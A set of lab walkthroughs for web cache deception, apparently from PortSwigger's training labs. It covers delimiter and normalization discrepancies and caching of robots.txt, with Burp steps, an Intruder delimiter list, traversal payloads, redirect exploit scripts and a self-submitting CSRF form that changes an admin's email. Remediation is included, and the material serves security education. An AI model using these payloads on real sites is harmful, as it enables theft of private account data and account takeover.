

# 🧠 📘LAB-1 (WEB CACHE DECEPTION) 

## 🟢 1️⃣ OVERVIEW

Web Cache Deception is a vulnerability where:

A cache stores private user data because it mistakes a dynamic response for a static file.

👉 Attacker later reuses the same URL to retrieve cached private data.

---

## 🟢 2️⃣ WHAT IS HAPPENING (CORE IDEA)

There are two systems behaving differently:

| Component | Behavior |
|---|---|
| Origin server | returns correct user data (dynamic) |
| Cache (CDN/proxy) | treats URL as static file |

👉 This mismatch creates the bug.

---

## 🟢 3️⃣ KEY CONCEPTS USED IN LAB

### 🔹 Sensitive endpoint

```text
/my-account
```

Contains:

```text
API key (private data)
```

### 📸 Screenshot — API Key in `/my-account`


---

### 🔹 Path confusion test

Server ignores extra path:

```text
/my-account/abc
```

Still returns same data → server is flexible.

### 📸 Screenshot — Path Manipulation Still Returns Response


---

### 🔹 Cache trigger extension

Cache treats file extensions as static:

```text
/my-account/abc.js
```

### 📸 Screenshot — `.js` Extension Changes Cache Behavior


---

## 🟢 4️⃣ HOW CACHE DECIDES STORAGE

Cache uses:

```text
Cache Key = full URL
```

So:

```text
/my-account/abc.js ≠ /my-account
```

👉 Treated as different resource → cached separately.

---

## 🟢 5️⃣ LAB WALKTHROUGH (STEP-BY-STEP)

### 🟢 STEP 1 — Login

```text
wiener : peter
```

Go to:

```text
/my-account
```

👉 See your API key

---

### 🟢 STEP 2 — Send to Burp Repeater

```http
GET /my-account
```

Send to Repeater

---

### 🟢 STEP 3 — Test path handling

Change:

```text
/my-account/abc
```

Send request

👉 API key still appears

✔ Server ignores extra path

---

### 🟢 STEP 4 — Test cache rule

Change:

```text
/my-account/abc.js
```

Send request

Check headers:

```http
X-Cache: miss
Cache-Control: max-age=30
```

---

### 🟢 STEP 5 — Confirm caching

Resend same request:

```text
/my-account/abc.js
```

Now:

```http
X-Cache: hit
```

✔ Response is cached

### 📸 Screenshot — Cached Response (`X-Cache: hit`)


---

### 🟢 STEP 6 — Create exploit

Exploit server:

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"
</script>
```

---

### 🟢 STEP 7 — Deliver exploit

Click:

```text
Deliver exploit to victim
```

👉 Victim (carlos) loads URL

---

### 🟢 STEP 8 — Retrieve victim data

Open:

```text
/my-account/wcd.js
```

👉 You get:

```text
Carlos API key
```

---

### 🟢 STEP 9 — Submit solution

Copy API key → Submit

---

## 🟢 6️⃣ WHY LAB WORKS (IMPORTANT INSIGHT)

Server returns dynamic private data  
BUT cache stores it as static (`.js` rule)

👉 This mismatch is the vulnerability.

---

## 🟢 7️⃣ CACHE BEHAVIOR (VERY IMPORTANT)

| Header | Meaning |
|---|---|
| `X-Cache: miss` | fetched from server |
| `X-Cache: hit` | served from cache |

---

## 🟢 8️⃣ ROOT CAUSE

Cache trusts file extension rules  
Server ignores fake path segments

---

## 🟢 9️⃣ ATTACK FLOW

```text
1. Find sensitive endpoint (/my-account)
2. Confirm path is ignored by server
3. Add static extension (.js)
4. Victim visits URL
5. Cache stores response
6. Attacker reuses URL
7. Steals victim data
```

---

## 🟢 🔟 REAL-WORLD SCENARIOS

- API key leaks
- Bank statements exposure
- SaaS dashboard leaks
- User profile leaks
- Internal admin panels

---

## 🟢 1️⃣1️⃣ HIGH-VALUE TARGETS

```text
/my-account
/profile
/dashboard
/api/user
/settings
```

---

## 🟢 1️⃣2️⃣ VARIATIONS

```text
/profile/test.js
/api/user/abc.css
/account/info.json.js
/profile/../profile.js
```

---

## 🟢 1️⃣3️⃣ REMEDIATION

### ✔ Disable caching

```http
Cache-Control: no-store
```

---

### ✔ Fix routing

Avoid:

```text
/profile*
```

Use strict routes:

```text
/profile
```

---

### ✔ Restrict CDN rules

Instead of:

```text
*.js
```

Use:

```text
/static/*.js
```

---

### ✔ Validate URLs

Reject:

```text
/my-account/random.js
```

---

## 🟢 1️⃣4️⃣ FINAL MENTAL MODEL

```text
Server = truth (data)
Cache = performance layer (blind rules)

Bug = mismatch between both interpretations
```

---

## 🔥 FINAL SUMMARY

Web Cache Deception = trick cache into storing private responses by disguising them as static file requests.

---

# 🧠 📘LAB-2 WEB CACHE DECEPTION - DELIMITER DISCREPANCY 

---

## 🟢 1️⃣ OVERVIEW

Web Cache Deception using delimiter discrepancies is a vulnerability where:

The origin server and cache interpret special characters (delimiters) differently, allowing attackers to trick the cache into storing private data as static content.

---

## 🟢 2️⃣ WHAT IS THIS TOPIC

This topic focuses on:

How special characters like `;` or `?` are treated differently by server and cache

👉 Goal of attacker:

Hide a fake static file extension from the server but not from the cache

---

## 🟢 3️⃣ CORE CONCEPT

### 🔹 Delimiter meaning

A delimiter is a character that separates parts of a URL

Examples:

| Character | Use |
|---|---|
| `?` | query separator |
| `;` | matrix parameter (Spring) |
| `.` | file extension |
| `%00` | null byte |

---

### 🔹 Vulnerability condition

```text
Server uses delimiter → ignores rest of path
Cache ignores delimiter → processes full path
```

---

## 🟢 4️⃣ LAB WALKTHROUGH 

### 🟢 STEP 1 — Login

```text
wiener : peter
```

Go to:

```text
/my-account
```

👉 Observe:

```text
Your API key is visible
```

---

### 🟢 STEP 2 — Send request to Repeater

```http
GET /my-account
```

👉 Send to Repeater

---

### 🟢 STEP 3 — Test path behavior

Change:

```text
/my-account/abc
```

👉 Response:

```text
404 Not Found
```

✔ Meaning:

Server does NOT ignore extra path

### 📸 Screenshot — Random Path Returns 404


---

### 🟢 STEP 4 — Create reference response

Change:

```text
/my-accountabc
```

👉 Response:

```text
404 Not Found
```

✔ This is baseline response

---

### 🟢 STEP 5 — Find delimiter (Intruder)

### Payload position:

```text
/my-account§§abc
```

### Payload list:

```text
!
"
#
$
%
&
'
(
)
*
+
,
-
.
/
:
;
<
=
>
?
@
[
\
]
^
_
`
{
|
}
~
%21
%22
%23
%24
%25
%26
%27
%28
%29
%2A
%2B
%2C
%2D
%2E
%2F
%3A
%3B
%3C
%3D
%3E
%3F
%40
%5B
%5C
%5D
%5E
%5F
%60
%7B
%7C
%7D
%7E
```

### Disable encoding:

```text
Uncheck URL encoding
```

Run attack

### 🟢 STEP 6 — Analyze results

Sort by Status Code

👉 Result:

```text
; → 200 OK
? → 200 OK
others → 404
```

✔ Meaning:

`;` and `?` are delimiters

### 📸 Screenshot — Intruder Finding Valid Delimiters


---

### 🟢 STEP 7 — Test cache behavior

### Test `?`

```text
/my-account?abc.js
```

👉 No caching

✔ Meaning:

Cache ALSO treats `?` as delimiter

---

### Test `;`

```text
/my-account;abc.js
```

👉 First:

```http
X-Cache: miss
Cache-Control: max-age=30
```

✔ Meaning:

Server ignores `;`  
Cache does NOT → sees `.js` → caches response

💥 Vulnerability confirmed

### 📸 Screenshot — `;` + `.js` Cached Response (`X-Cache: miss`)


---

### 🟢 STEP 8 — Confirm cache hit

Send again:

```text
/my-account;abc.js
```

👉 Response:

```http
X-Cache: hit
```

✔ Response served directly from cache

### 📸 Screenshot — Cached Response (`X-Cache: hit`)


---

### 🟢 STEP 9 — Create exploit

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account;wcd.js"
</script>
```

---

### 🟢 STEP 🔟 — Deliver exploit

```text
Deliver exploit to victim
```

---

### 🟢 STEP 1️⃣1️⃣ — Retrieve data

Open:

```text
/my-account;wcd.js
```

👉 Get:

```text
Carlos API key
```

---

### 🟢 STEP 1️⃣2️⃣ — Submit

```text
Submit API key → Lab solved
```

---

## 🟢 5️⃣ PAYLOAD (FINAL)

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account;wcd.js"
</script>
```

---

## 🟢 6️⃣ PAYLOAD BREAKDOWN

### 🔹 Full URL

```text
/my-account;wcd.js
```

### 🔹 Server view

```text
/my-account
```

→ returns private data

### 🔹 Cache view

```text
/my-account;wcd.js
```

→ sees `.js` → caches it

---

## 🟢 7️⃣ REAL-WORLD SCENARIOS

### 🔴 Scenario 1 — Profile leakage

```text
/profile;test.js
```

### 🔴 Scenario 2 — API endpoint

```text
/api/user;data.css
```

### 🔴 Scenario 3 — Dashboard leak

```text
/dashboard;info.js
```

---

## 🟢 8️⃣ VARIATIONS

### 🔹 Different delimiters

```text
;
?
%00
.
```

### 🔹 Different extensions

```text
.js
.css
.ico
.exe
```

### 🔹 Combined payloads

```text
/profile;abc.css
/profile%00abc.js
/profile.ico.js
```

---

## 🟢 9️⃣ MULTI-CHAIN ATTACKS

### 🔴 Chain 1

```text
Web Cache Deception → steal session/API → account takeover
```

### 🔴 Chain 2

```text
Cache deception → admin data leak → privilege escalation
```

### 🔴 Chain 3

```text
Cache deception → CSRF token leak → bypass protections
```

---

## 🟢 🔟 HIGH-VALUE TARGETS

```text
/my-account
/profile
/api/user
/dashboard
/settings
```

---

## 🟢 1️⃣1️⃣ REMEDIATION

### ✔ 1. Disable caching for private data

```http
Cache-Control: no-store
```

---

### ✔ 2. Normalize URL parsing

Reject unexpected delimiters

---

### ✔ 3. Strict routing

Avoid:

```text
/my-account*
```

Use:

```text
/my-account only
```

---

### ✔ 4. Restrict cache rules

Avoid:

```text
*.js
```

Use:

```text
/static/*.js
```

---

### ✔ 5. Validate extensions

Reject dynamic endpoints with static extensions

---

## 🟢 1️⃣2️⃣ MENTAL MODEL

```text
Server cuts URL at delimiter
Cache does NOT

→ fake extension visible to cache only
→ private data cached
```

---

## 🔥 FINAL SUMMARY

Delimiter discrepancy lets attacker hide a fake static extension from the server but not the cache, causing sensitive data to be cached and leaked.

---

# 🧠 📘Lab-3 WEB CACHE DECEPTION VIA NORMALIZATION DISCREPANCY + STATIC DIRECTORY CACHE RULE

---

## 🟢 1️⃣ OVERVIEW

This lab demonstrates a powerful type of:

```text
Web Cache Deception (WCD)
```

where:

```text
the cache server
and the origin server
```

interpret the SAME URL differently.

Because of this mismatch:

```text
Private user data gets cached as public static content
```

and attackers can later retrieve it.

---

## 🟢 2️⃣ WHAT IS THIS TOPIC?

### 🧠 Simple Definition

Web Cache Deception means:

```text
Tricking the cache into storing private content
```

by making:

```text
Dynamic content look like static content
```

---

### 🧠 Normal Web Flow

Normally:

```text
/private-account
```

is NEVER cached because:

- it changes per user
- contains sensitive info
- contains session-based data

---

But static files like:

```text
/resources/logo.png
/resources/app.js
/resources/style.css
```

ARE cached.

Why?

Because they are same for everyone.

---

## 🟢 3️⃣ CORE VULNERABILITY IN THIS LAB

The cache and server disagree.

---

### 🔴 Cache thinks:

```text
/resources/..%2fmy-account
```

is:

```text
A static resource under /resources
```

So cache stores it.

---

### 🟢 Origin server thinks:

```text
/resources/..%2fmy-account
```

becomes:

```text
/my-account
```

because it:

- decodes `%2f → /`
- resolves `..`

This process is called:

```text
Normalization
```

---

## 🟢 4️⃣ FINAL RESULT

The server returns:

```text
Private account page
```

BUT cache stores it as:

```text
Public static content
```

---

## 🟢 5️⃣ KEY CONCEPTS

### 🔹 1. Cache

A middle layer between:

```text
Browser ↔ Cache ↔ Origin Server
```

Purpose:

- speed
- performance
- lower server load

---

### 🔹 2. Origin Server

The real backend application.

Usually:

```text
Django
Node.js
Rails
Spring
PHP
ASP.NET
```

---

### 🔹 3. Cache Rules

Caches decide what to store using rules like:

```text
/resources/*
```

or:

```text
*.js
*.css
*.png
```

---

### 🔹 4. Normalization

Normalization means:

```text
Cleaning and simplifying paths
```

Example:

```text
/aaa/../admin
→ /admin
```

---

### 🔹 5. Path Traversal Sequence

This:

```text
../
```

moves one directory backward.

Encoded version:

```text
..%2f
```

because:

```text
%2f = /
```

---

## 🟢 6️⃣ FULL ATTACK CHAIN

### Step 1

Attacker finds sensitive endpoint:

```text
/my-account
```

returns API key.

---

### Step 2

Attacker discovers server normalization:

```text
/aaa/..%2fmy-account
→ works
```

Meaning:

```text
Server resolves traversal
```

---

### Step 3

Attacker discovers cache rule:

```text
/resources/*
```

gets cached.

---

### Step 4

Attacker combines both behaviors:

```text
/resources/..%2fmy-account
```

---

### Step 5

Cache sees:

```text
/resources/...
```

→ cache it.

---

### Step 6

Server sees:

```text
/my-account
```

→ return private data.

---

### Step 7

Victim visits malicious URL.

---

### Step 8

Victim's private page becomes cached.

---

### Step 9

Attacker opens same URL.

---

### Step 🔟

Cache serves victim data to attacker.

---

## 🟢 7️⃣ LAB WALKTHROUGH (EXACT DETAILED STEPS)

### 🟢 STEP 1 — Login

Credentials:

```text
wiener : peter
```

Go to:

```text
/my-account
```

Observe:

```text
API key visible
```

This is target sensitive data.

---

### 🟢 STEP 2 — Send Request to Repeater

In:

```text
Proxy → HTTP history
```

Find:

```http
GET /my-account
```

Right click:

```text
Send to Repeater
```

---

### 🟢 STEP 3 — Test Path Abstraction

Change path:

```text
/my-account/abc
```

Send request.

Response:

```text
404 Not Found
```

Meaning:

```text
Server does NOT ignore extra path
```

So:

```text
No path abstraction vulnerability
```

---

### 🟢 STEP 4 — Test Arbitrary String

Change path:

```text
/my-accountabc
```

Send request.

Again:

```text
404
```

with:

```text
No cache evidence
```

Save this response mentally as baseline behavior.

---

### 🟢 STEP 5 — Send to Intruder

Right click request:

```text
Send to Intruder
```

---

### 🟢 STEP 6 — Setup Delimiter Testing

Attack type:

```text
Sniper
```

Payload position:

```text
/my-account§§abc
```

Meaning:

```text
Burp inserts delimiter characters here.
```

---

### 🟢 STEP 7 — Add Delimiter List

Add delimiter payloads like:

```text
;
?
#
%23
%2f
etc
```

VERY IMPORTANT:

Turn OFF:

```text
URL-encode these characters
```

Otherwise Burp modifies them.

---

### 🟢 STEP 8 — Run Attack

Click:

```text
Start attack
```

Sort results by:

```text
Status code
```

---

### 🟢 STEP 9 — Analyze Results

Only:

```text
?
```

returns:

```text
200 OK
```

with API key.

Everything else:

```text
404
```

Meaning:

```text
Server only treats ? as delimiter
```

But:

```text
? is normal URL behavior
```

So:

```text
No useful delimiter discrepancy
```

Move to normalization testing.

---

### 🟢 STEP 🔟 — Test Normalization

Back in Repeater.

Change path:

```text
/aaa/..%2fmy-account
```

Send request.

Response:

```text
200 OK
```

AND:

```text
API key visible
```

Meaning:

```text
Server normalized path.
```

Flow:

```text
/aaa/..%2fmy-account
→ decode %2f
→ /aaa/../my-account
→ resolve traversal
→ /my-account
```

---

### 🟢 STEP 1️⃣1️⃣ — Find Static Directory

Go to:

```text
HTTP history
```

Look for static resources.

Notice:

```text
/resources/...
```

Examples:

```text
/resources/js/tracking.js
/resources/images/logo.svg
```

Observe headers:

```http
X-Cache: hit
```

Meaning:

```text
/resources has cache rule
```

VERY IMPORTANT.

---

### 🟢 STEP 1️⃣2️⃣ — Test Cache Normalization

Take ANY `/resources` request.

Send to Repeater.

Modify path:

```text
/resources/..%2fabc
```

Send request.

---

### First Request

Header:

```http
X-Cache: miss
```

Meaning:

```text
Not cached yet
```

---

### Send AGAIN

Now:

```http
X-Cache: hit
```

Meaning:

```text
Cache stored it
```

Possible reason:

```text
Cache only checks /resources prefix
```

BUT we still need confirmation.

### 📸 Screenshot — First Request `X-Cache: miss`, Second Request `X-Cache: hit`



---

### 🟢 STEP 1️⃣3️⃣ — Confirm Static Directory Rule

Now test:

```text
/resources/aaa
```

Send twice.

---

### First Request

```http
X-Cache: miss
```

---

### Second Request

```http
X-Cache: hit
```

CONFIRMED:

```text
Everything under /resources gets cached
```

---

### 🟢 STEP 1️⃣4️⃣ — Build Final Payload

Now combine both discoveries.

Payload:

```text
/resources/..%2fmy-account
```

---

## 🟢 8️⃣ WHY THIS WORKS

### 🔴 Cache Interpretation

```text
/resources/..%2fmy-account
```

Starts with:

```text
/resources
```

So:

```text
CACHE IT
```

---

### 🟢 Origin Server Interpretation

```text
/resources/..%2fmy-account
→ /my-account
```

So server returns:

```text
Private account page
```

---

## 🟢 9️⃣ RESULT

```text
Private data becomes cached
```

---

### 🟢 STEP 1️⃣5️⃣ — Verify Vulnerability

Send:

```text
/resources/..%2fmy-account
```

---

### First Response

```http
X-Cache: miss
```

---

### Second Response

```http
X-Cache: hit
```

AND:

```text
API key still visible
```

Meaning:

```text
Private response is cached
```

Vulnerability confirmed.

---

### 🟢 STEP 1️⃣6️⃣ — Create Exploit

Go to:

```text
Exploit Server
```

Payload:

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/resources/..%2fmy-account?wcd"
</script>
```

---

### Why `?wcd` ?

```text
Cache buster.
```

Without it:

```text
Victim may receive YOUR cached response instead.
```

---

### 🟢 STEP 1️⃣7️⃣ — Deliver Exploit

Click:

```text
Deliver exploit to victim
```

Victim visits malicious URL.

---

### 🟢 STEP 1️⃣8️⃣ — Retrieve Carlos Data

Open:

```text
/resources/..%2fmy-account?wcd
```

Now cached response contains:

```text
Carlos API key
```

Copy key.

Submit solution.

Lab solved.

---

## 🟢 🔟 REAL-WORLD MENTAL MODEL

Think of cache like:

```text
A security guard checking ONLY first folder name
```

Cache sees:

```text
/resources
```

and says:

```text
Safe static file
```

---

But backend server secretly transforms:

```text
/resources/..%2fmy-account
→ /my-account
```

So attacker tricks cache into storing:

```text
Private user page
```

---

## 🟢 1️⃣1️⃣ REAL-WORLD HIGH-VALUE TARGETS

### 🔹 1. Account Pages

```text
/account
/profile
/dashboard
/settings
```

---

### 🔹 2. API Responses

```text
/api/me
/api/private
/graphql
```

---

### 🔹 3. Banking Data

```text
/cards
/transactions
/wallet
```

---

### 🔹 4. Admin Panels

```text
/admin
/internal
/manage
```

---

### 🔹 5. SaaS Dashboards

```text
/customer
/team
/billing
```

---

## 🟢 1️⃣2️⃣ REAL-WORLD VARIATIONS

### 🔹 Variation 1 — Static Extension

```text
/profile.js
```

---

### 🔹 Variation 2 — Delimiter

```text
/profile;foo.js
```

---

### 🔹 Variation 3 — Encoded Delimiter

```text
/profile%3ffoo.js
```

---

### 🔹 Variation 4 — Static Directory

```text
/static/..%2fprofile
```

---

### 🔹 Variation 5 — CDN Specific

Some CDNs decode differently:

```text
Akamai
Cloudflare
Fastly
CloudFront
```

Each behaves differently.

---

## 🟢 1️⃣3️⃣ WHY DEVELOPERS ACCIDENTALLY CREATE THIS

### Backend Developers

Focus on:

```text
Routing
and normalization.
```

---

### CDN/Cache Teams

Focus on:

```text
Performance
```

---

### Problem

Nobody checks:

```text
Do BOTH systems interpret URL same way?
```

---

## 🟢 1️⃣4️⃣ ROOT CAUSE

```text
Parser inconsistency
```

between:

```text
CDN
Reverse proxy
Cache
Load balancer
Backend framework
```

---

## 🟢 1️⃣5️⃣ REMEDIATION

### ✔ 1. Never Cache Authenticated Responses

Use:

```http
Cache-Control: private, no-store
```

---

### ✔ 2. Normalize BEFORE Cache Rules

```text
Cache and origin MUST use same parser behavior.
```

---

### ✔ 3. Disable Caching for Sensitive Paths

Never cache:

```text
/account
/profile
/api
```

---

### ✔ 4. Reject Encoded Traversal

Block:

```text
..%2f
%2e%2e/
```

---

### ✔ 5. Use Consistent URL Parsing

All layers should:

- decode same way
- normalize same way
- apply same delimiters

---

## 🟢 1️⃣6️⃣ DETECTION CHECKLIST

### Ask:

```text
Does server normalize?
```

Test:

```text
/aaa/..%2fprofile
```

---

### Ask:

```text
Does cache trust static directory?
```

Test:

```text
/resources/aaa
```

---

### Ask:

```text
Do cache and server interpret differently?
```

Test:

```text
/resources/..%2fprofile
```

---

## 🟢 1️⃣7️⃣ VULNERABILITY FORMULA

```text
Cache trusts fake static path
+
Server normalizes to sensitive endpoint
=
Web Cache Deception
```

---

# 🔥 FINAL ONE-LINE SUMMARY

The cache stores a private page because the server secretly transforms a fake static path into a sensitive endpoint.

---

## 🧠Lab -5 Web Cache Deception via Exact Filename Cache Rules + CSRF Token Theft

---

## 🧭 Overview

```txt
This lab combines multiple concepts together:

1. Web Cache Deception
2. Exact filename cache rules
3. Delimiter discrepancies
4. Normalization discrepancies
5. CSRF exploitation
```

---

## 🎯 Goal

```txt
Steal administrator CSRF token
→ use it to forge a valid email-change request
→ change administrator email
```

---

## ❓ What Is This Topic?

Normally:

```txt
/my-account
```

contains:

```txt
- private API keys
- CSRF tokens
- personal account data
```

❌ This page should NEVER be cached.

But in this lab:

```txt
cache and origin server interpret URL differently
```

So attacker tricks:

```txt
Server → returns /my-account
Cache  → thinks request is /robots.txt
```

Because:

```txt
/robots.txt
```

matches an exact filename cache rule → cache stores sensitive response.

---

## 🧠 Core Concepts

---

### 1️⃣ Exact Filename Cache Rules

Unlike previous labs using:

```txt
.js
.css
```

This lab uses exact filename caching:

```txt
/robots.txt
/favicon.ico
/index.html
```

✔ Cache stores response only if FINAL normalized path matches exactly.

---

### 2️⃣ Delimiter Discrepancy

Example:

```txt
/my-account;abc
```

Server interprets:

```txt
/my-account
```

and ignores:

```txt
;abc
```

But cache may treat full string as path.

---

### 3️⃣ Normalization Discrepancy

```txt
/aaa/../robots.txt
```

→ becomes:

```txt
/robots.txt
```

Some systems normalize traversal sequences.

Some do not.

---

## 🔍 Key Discovery In This Lab

```txt
Origin server:
- uses delimiters
- does NOT normalize traversal

Cache:
- DOES normalize traversal
- caches exact filename /robots.txt
```

---

## 🚀 Full Lab Walkthrough (Exact Sequence)

---

## Step 1 — Login

```txt
wiener:peter
```

---

## Step 2 — Change Email Once

Go to:

```txt
My Account
```

Change email.

Purpose:

```txt
- generate change-email request
- observe CSRF token
```

---

## Step 3 — Observe CSRF Token

In HTTP history find:

```txt
GET /my-account
```

Response contains:

```html
<input type="hidden" name="csrf" value="TOKEN">
```

Meaning:

```txt
email change action is CSRF protected
```

---

## Step 4 — Send /my-account to Repeater

```txt
GET /my-account
→ Send to Repeater
```

---

## Step 5 — Test Path Abstraction

```txt
/my-account/abc → 404
```

Meaning:

```txt
server does NOT abstract extra path
```

---

## Step 6 — Test Another Path Variant

```txt
/my-accountabc → 404
```

```txt
No caching evidence
Reference failure response
```

---

## Step 7 — Send to Intruder

```txt
Payload:
/my-account§§abc

Attack type:
Sniper
```

Disable:

```txt
URL-encode these characters
```

---

## Step 8 — Identify Delimiters

Sort by:

```txt
Status code
```

Characters returning:

```txt
200 OK

;
?
```

Meaning:

```txt
origin server uses them as delimiters
```

---

## Step 9 — Test Static Extension Rules

```txt
/my-account?abc.js → no caching
/my-account;abc.js → no caching
```

Meaning:

```txt
No .js extension cache rule exists
```

---

## Step 10 — Test Normalization On Origin Server

```txt
/aaa/..%2fmy-account → 404
```

Meaning:

```txt
origin server does NOT:
- decode traversal
- normalize path
```

---

## Step 11 — Investigate Static Directories

Observe:

```txt
/resources/
```

But:

```txt
no caching evidence
```

Meaning:

```txt
no static directory cache rule
```

---

## Step 12 — Test Exact Filename Cache Rules

```txt
/robots.txt
```

First response:

```txt
X-Cache: miss
```

Second response:

```txt
X-Cache: hit
```

Meaning:

```txt
cache stores /robots.txt
```

---

## Step 13 — Test Cache Normalization

```txt
/aaa/..%2frobots.txt
```

Still cached.

Meaning:

```txt
cache normalized:

/aaa/../robots.txt
→ /robots.txt
```

⚠️ VERY IMPORTANT

---

## Step 14 — Build Exploit Payload Using ?

```txt
/my-account?%2f%2e%2e%2frobots.txt
```

Response:

```txt
200 OK
NOT cached
```

Meaning:

```txt
? fails for cache trick
```

---

## Step 15 — Build Exploit Payload Using ;

```txt
/my-account;%2f%2e%2e%2frobots.txt
```

First request:

```txt
X-Cache: miss
```

Second request:

```txt
X-Cache: hit
```

🔥 SUCCESS

---

## 💥 Why Final Payload Works

Payload:

```txt
/my-account;%2f%2e%2e%2frobots.txt
```

---

## 🔵 Cache Interpretation

Cache normalizes:

```txt
/my-account;/../robots.txt
→ /robots.txt
```

Cache thinks:

```txt
This is robots.txt
```

and caches response.

---

## 🟢 Server Interpretation

Server sees delimiter:

```txt
;
```

So server truncates request to:

```txt
/my-account
```

and returns:

```txt
- API key
- CSRF token
- private account data
```

---

## 📦 Result

```txt
Cache stores private my-account response
under cache object:
/robots.txt
```

---

## 🧪 Step 16 — Create Exploit

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt?wcd"
</script>
```

---

## ⚡ Why ?wcd Is Added

```txt
Cache buster

Purpose:
- force unique cache key
- prevent stale cache collisions
- avoid victim receiving attacker cache
```

---

## 🚨 Step 17 — Deliver Exploit

```txt
Administrator visits malicious URL
→ admin response becomes cached
```

---

## 🔓 Step 18 — Retrieve Cached Admin Response

❌ DO NOT use browser.

Use:

```txt
Repeater
```

Because browser may:

```txt
- redirect
- invalidate sessions
- auto-handle cache strangely
```

---

## 🧲 Step 19 — Request Cached URL

```txt
/my-account;%2f%2e%2e%2frobots.txt?wcd
```

Send within:

```txt
30 seconds
```

Response contains:

```txt
administrator CSRF token
```

Copy token.

---

## 📨 Step 20 — Find Change Email POST Request

```txt
POST /my-account/change-email
```

Send to Repeater.

---

## 🔁 Step 21 — Replace CSRF Token

```txt
Replace your token
with administrator token
```

---

## 📧 Step 22 — Change Email

```txt
pwned@evil.com
```

---

## 🛠 Step 23 — Generate CSRF PoC

Burp Pro:

```txt
Generate CSRF PoC
```

Community Edition:

```txt
Create manual HTML form
```

---

## 📜 Manual CSRF PoC

```html
<html>
<body>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">

<input type="hidden" name="email" value="pwned@evil.com">

<input type="hidden" name="csrf" value="ADMIN_TOKEN">

<input type="submit" value="Submit">

</form>

<script>
document.forms[0].submit();
</script>

</body>
</html>
```

---

## 🚀 Step 24 — Deliver Final Exploit

```txt
Victim browser auto-submits form
→ sends valid admin token
→ changes admin email
```

✅ Lab solved.

---

## 🔗 Complete Attack Chain

```txt
1. Find private endpoint
2. Discover delimiters
3. Discover normalization discrepancy
4. Discover filename cache rule
5. Craft payload
6. Poison cache with victim response
7. Steal admin CSRF token
8. Forge valid CSRF request
9. Change admin email
```

---

## 🧠 Mental Model

Think of this attack as:

```txt
Server and cache speak different URL languages
```

Attacker creates one URL.

But:

```txt
Server → /my-account
Cache  → /robots.txt
```

Result:

```txt
Sensitive data cached as public file
```

---

## 🎯 High-Value Real-World Targets

Sensitive endpoints:

```txt
/my-account
/profile
/dashboard
/api/user
/settings
/orders
/billing
/admin
```

Dangerous cacheable filenames:

```txt
/robots.txt
/favicon.ico
/index.html
```

Dangerous cacheable directories:

```txt
/static
/resources
/assets
/images
/scripts
```

---

## 🧪 Common Exploit Payload Structures

Delimiter-based:

```txt
/profile;fake.js
```

Normalization-based:

```txt
/resources/..%2fprofile
```

Filename-rule-based:

```txt
/profile;%2f%2e%2e%2frobots.txt
```

---

## 🛡 Remediation

---

### 1️⃣ Never Cache Authenticated Responses

```http
Cache-Control: private, no-store
```

---

### 2️⃣ Normalize URLs Consistently

Ensure:

```txt
cache
CDN
reverse proxy
origin server
```

all process URLs identically.

---

### 3️⃣ Disable Cache On Sensitive Endpoints

```txt
Never cache:
- account pages
- dashboards
- profile APIs
- authenticated GET responses
```

---

### 4️⃣ Avoid Path-Based Cache Rules Alone

Avoid:

```txt
cache *.js
cache /robots.txt
cache /resources/*
```

without authentication awareness.

---

### 5️⃣ Strip Delimiters

Reject suspicious:

```txt
;
%23
%3f
..%2f
```

before cache layer.

---

## 🔥 Key Takeaway

```txt
Web cache deception happens because:

cache and origin server interpret the SAME URL differently
```

Attacker weaponizes:

```txt
- delimiters
- traversal
- normalization
- cache rules
```

to make:

```txt
private responses become public cached content
```
